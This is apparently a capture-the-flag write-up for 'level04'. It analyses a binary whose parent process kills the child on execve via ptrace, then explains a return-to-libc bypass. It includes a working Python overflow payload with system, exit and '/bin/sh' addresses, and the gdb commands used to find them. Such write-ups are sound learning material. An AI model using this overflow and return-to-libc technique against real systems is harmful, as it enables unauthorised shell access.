 # LEVEL 04

## EXPLANATIONS

### BINARY BEHAVIOR

- Only a main function

  - forks, child does a `gets()` on a stack buffer.
    - => open door for a simple buffer overflow on sEIP of the child, as there is no stack canary

- Analyzing the binary, we found that this won't work :

  - ptrace(PTRACE_TRACEME) in the child makes it traced by the parent.
    - => sends SIGTRAP to parent when child does a system interrupt
      - SIGTRAP allows the parent to take control via a `wait`
  - the parent calls `wait` to listen to changes in the child status
    - a syscall is considered to be a change in status
  - the parent calls `ptrace(PTRACE_PEEKUSER, pid, 44);`

    - the return value of this call is the value of the childs `orig_eax` register, which store args sent to system calls.

      - if the returned value is 11 (syscall execve from the child), the parent kills the child.

    - We peek into the child process "user space" (structs below)
      - offset of 44 bytes in the user space gets us precisely to orig_eax.
      - => orig_eax is used to save the value inside eax at the moment of a syscall (as eax is then set with the syscall return value).

```
struct user
{
    struct user_regs_struct regs; // offset 0
    ...
};

struct user_regs_struct
{
    ...
    long int orig_eax; // offset 44
    ...
};
```

- Considering all this, we understand that a system call execve("/bin/sh") won't be possible here.

### EXPLOIT STRATEGY

- We need to launch the shell other than with a system interrupt execve.
- `system` function from libc is implemented using a fork.

  - => return to libc exploit, we call the system function from C stdlib.
  - No execve, no code 11 catched by the parent, no kill of the child.
    - => We bypass the security

- Classic call to a function is performed via the call instruction
  - (== push EIP + jmp func_addr)
- What we do is we use a ret instruction instead of a call

  - (== pop EIP + jmp EIP)
    - => stack state != normal function call

- If we want to mimic this "normal call state" we need to have, just before the call :
  - ESP : system@plt addr
    - will be popped from the stack and jumped to
  - ESP + 4 : random value (or exit to be more classy)
    - location of sEIP for system
  - ESP + 8 : arg1 of system call
    - => "/bin/sh" string addr

### RUN COMMAND

```
python -c 'print "A" * 156 +"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]' > /tmp/exploit_string
cat /tmp/exploit_string - | ./level04
```

#### RESOURCES

- /usr/include/bits/waitstatus.h => MACRO WIF
- /usr/include/asm/unistd_32.h => Syscall EXECVE is value 11 (0xb) (+ ptrace values)
- /usr/include/sys/prctl.h => prctl(1, 1) == prctl(PR_SET_PDEATHSIG, SIGHUP)
- /usr/include/bits/signum.h
  -man ptrace / /usr/include/sys/ptrace.h

(gdb) find \_\_libc_start_main,+99999999,"/bin/sh"
0xf7f897ec

p system
system = 0xf7e6aed0

p exit
exit = 0xf7e5eb70
